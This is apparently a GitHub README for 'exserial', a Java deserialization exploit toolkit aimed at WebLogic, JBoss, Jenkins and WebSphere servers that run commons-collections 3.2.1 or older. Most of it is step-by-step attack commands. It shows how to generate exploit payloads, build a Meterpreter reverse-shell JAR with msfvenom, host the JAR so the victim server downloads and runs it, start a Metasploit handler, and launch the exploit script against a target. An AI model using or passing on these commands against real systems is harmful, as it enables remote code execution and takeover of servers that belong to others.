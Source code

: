 Java Untrusted Deserialization Exploits Tools
===

## Originally from github.com/getcode2git/exserial
---

Not much change in code here as it works a charm. However original github is all in Chinese, so for anyone fluent - please visit the original creator :)
Weblogic Versions: 10.3.6, 12.1.2, 12.1.3, 12.2.1
As for the others its probably easily discoverable - just anything running the older versions of commons-collections...

Structure
---

    .
    |____README.md
    |____exserial.jar     CommonsCollections <= 3.2.1 Exploit Gadget
    |____scripts
    | |____jboss.py       JBoss JMXInvokerServlet
    | |____jenkin.py      Jenkins CLI
    | |____weblogic.py    WebLogic
    | |____websphere.py   WebSphere

---

`exserial.jar` Deserialisation Payload Generator：`CommandExec` && `ClassInject`

    $ java -jar exserial.jar
    Java Deserialise Exploit Gadget With (commons-collections <= 3.2.1)
    Usage: java -jar exserial.jar [module type]
        Available module types:
            CommandExec
            ClassInject

### 1. CommandExec

Ability to call command execution：

    $ java -jar exserial.jar CommandExec
    Java Deserialise Exploit Gadget With (commons-collections <= 3.2.1)
    Usage: java -jar exserial.jar CommandExec [platform] [command to execute]
        Available platform types:
            Win
            Linux
            OSX
            

### 2. ClassInject

The `main` method used to cause the target server to dynamically load our specified JAR package and execute the specified class name.

For all you lovely testers `msfvenom` as part of the metasploit package [Metasploit](https://github.com/rapid7/metasploit-framework) with the `java/meterpreter/reverse_tcp` JAR payload：

    $ msfvenom --payload="java/meterpreter/reverse_tcp" LHOST=192.168.130.1 LPORT=4444 -t jar > java_meterpreter_reverse_tcp.jar
    
Inject `java_meterpreter_reverse_tcp.jar` into our main class within `exserial.jar` with metasploit.Payload：

    $ java -jar exserial.jar ClassInject "http://myserver.com/java_meterpreter_reverse_tcp.jar" "metasploit.Payload" > demo3.ser

### 3. Useage

Set that **MSF handler** running ->
` use exploit/multi/handler `

` set PAYLOAD java/meterpreter/reverse_tcp `

` set LHOST x.x.x.x `

` set LPORT 1234 `

` exploit -j `

Create a malicious **Java Meterpreter** ->
`msfvenom -p java/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=1234 -f jar > my_reverse_meterpreter.jar`

Host that bad boy on your **webserver**, make sure that the victim will be able to access this ->
` mv ./my_reverse_meterpreter.jar /var/www/html/`

` service apache2 start` <- Or whatever HTTP Server you prefer :)

Generate your malicious **servlet** ->
` java -jar exserial.jar ClassInject "http://yourwebserver:port/my_reverse_meterpreter.jar" "metasploit.Payload" > exploit.ser`

Fire away and **pray for shells** ->
` python scripts/weblogic.py http://somepoorsod 7001 exploit.ser`

